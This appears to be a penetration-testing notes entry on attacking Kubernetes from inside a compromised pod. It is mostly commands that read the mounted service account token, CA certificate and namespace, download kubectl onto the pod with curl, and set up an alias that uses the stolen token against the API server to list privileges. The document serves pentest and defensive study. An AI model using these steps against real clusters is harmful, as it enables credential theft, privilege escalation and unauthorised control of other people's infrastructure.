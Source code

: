 # Attacking

**Description:** This entry details how to use serviceaccount details that are mounted into a pod to run command on the control plane API

**Requirements:** kubectl

## Pod service accounts

```mount | grep kube```

Searching for the serviceaccount folder (Default: /run/secrets/kubernetes.io/serviceaccount)

Important files:
* ca.crt
* namespace
* token (service account token)

```
env

PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
HOSTNAME=nginx-6799fc88d8-2pgh2
KUBERNETES_PORT_443_TCP_PORT=443
KUBERNETES_PORT_443_TCP_ADDR=10.96.0.1
KUBERNETES_SERVICE_HOST=10.96.0.1
KUBERNETES_SERVICE_PORT=443
KUBERNETES_SERVICE_PORT_HTTPS=443
KUBERNETES_PORT=tcp://10.96.0.1:443
KUBERNETES_PORT_443_TCP=tcp://10.96.0.1:443
KUBERNETES_PORT_443_TCP_PROTO=tcp
NGINX_VERSION=1.19.6
NJS_VERSION=0.5.0
PKG_RELEASE=1~buster
HOME=/root

```

Search environment variables for api endpoints

```
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
```

Downloading a copy of [kubectl](https://kubernetes.io/docs/tasks/tools/install-kubectl/) (chmod u+x before running)

```
alias kubectl="<path_to_kubectl> --token=`cat /run/secrets/kubernetes.io/serviceaccount/token` --certificate-authority=/run/secrets/kubernetes.io/serviceaccount/ca.crt -n `cat /run/secrets/kubernetes.io/serviceaccount/namespace` --server=https://<api_server_ip>:<api_server_port>"
```

Setup kubectl command with discovered credentials from serviceaccount folder

```kubectl auth can-i --list```

List all privileges with current context



